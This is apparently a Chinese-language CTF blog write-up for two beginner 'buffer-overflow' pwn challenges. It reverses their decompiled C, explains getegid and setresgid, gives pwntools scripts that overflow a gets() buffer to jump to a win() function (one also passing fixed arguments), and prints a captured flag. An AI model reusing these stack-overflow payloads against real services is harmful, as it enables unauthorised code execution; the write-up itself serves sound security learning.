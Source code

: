 ```yaml
---
layout: post
title:  buffer-overflow 1/2
date:   2021-08-02 00:01:01 +0300
image:  2021-08-02-love.jpg
tags:   [ctf,Pwn]
---
```


### 1

main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v4; // [esp+Ch] [ebp-Ch]

  setvbuf(_bss_start, 0, 2, 0);
  v4 = getegid();
  setresgid(v4, v4, v4);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

getegid

```assembly
// attributes: thunk
__gid_t getegid(void)
{
  return getegid();
}
```

**C语言getgid()函数：取得组识别码函数**

头文件：

```assembly
#include <unistd.h>
#include <sys/types.h>
```

定义函数：

```assembly
gid_t getgid(void);
```

函数说明：getgid()用来取得执行目前进程的组识别码。

返回值：返回组识别码

范例

```assembly
#include <unistd.h>
#include <sys/types.h>
main()
{
  printf("egid is %d\n", getegid());
}
```

执行：

```assembly
gid is 0 //当使用root 身份执行范例程序时
```

**C语言getegid()函数：获得组识别码**

头文件：

```assembly
 #include <unistd.h>
 #include <sys/types.h>
```

定义函数：

```assembly
gid_t getegid(void);
```

函数说明：getegid()用来取得执行目前进程有效组识别码. 有效的组识别码用来决定进程执行时组的权限.

返回值：返回有效的组识别码.

范例

```assembly
#include <unistd.h>
#include <sys/types.h>
main()
{
  printf("egid is %d\n", getegid());
}
```

执行：

```assembly
egid is 0 //当使用root 身份执行范例程序时
```

setresgid()

```assembly
// attributes: thunk
int __cdecl setresgid(int a1, int a2, int a3)
{
  return setresgid(a1, a2, a3);
}
```

**setresgid()**设置调用的真实GID，有效GID和保存的set-group-ID, 如果对应参数设置为-1, 则对应的ID不改变

vuln

```assembly
int vuln()
{
  int v0; // eax
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  gets(s);
  v0 = get_return_address();
  return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", v0);
}
```

get_return_address

```assembly
int __usercall get_return_address@<eax>(int a1@<ebp>)
{
  return *(_DWORD *)(a1 + 4);
}
```

```assembly
.text:080486C0                 public get_return_address
.text:080486C0 get_return_address proc near            ; CODE XREF: vuln+15↑p
.text:080486C0                 mov     eax, [ebp+4]
.text:080486C3                 retn
.text:080486C3 get_return_address endp
```

win

```assembly
int win()
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 0x40, stream);
  return printf(s);
}
```

前面的两个函数貌似没用，直接打

```assembly
from pwn import *

io = remote("node4.buuoj.cn", 27436)

win = 0x80485CB
payload = "a" * 40 + p32(0) + p32(win)
io.sendline(payload)

io.interactive()
```

### 2

main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v4; // [esp+Ch] [ebp-Ch]

  setvbuf(_bss_start, 0, 2, 0);
  v4 = getegid();
  setresgid(v4, v4, v4);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

vuln

```assembly
int vuln()
{
  char s[108]; // [esp+Ch] [ebp-6Ch] BYREF

  gets(s);
  return puts(s);
}
```

win

```assembly
char *__cdecl win(int a1, int a2)
{
  char *result; // eax
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  result = fgets(s, 0x40, stream);
  if ( a1 == 0xDEADBEEF && a2 == 0xDEADC0DE )
    result = (char *)printf(s);
  return result;
}
```

vuln函数中存在栈溢出，使其溢出跳转到win函数，并传入两个参数0xDEADBEEF和0xDEADC0DE

```assembly
from pwn import *

io = remote("node4.buuoj.cn", 26439)

win = 0x80485cb
payload = "a"*(108+4) + p32(win) + p32(0) + p32(0xDEADBEEF) + p32(0xDEADC0DE)
io.sendline(payload)

io.interactive()
```

flag{92f291a4-1563-4709-811a-a498b4c4f890}

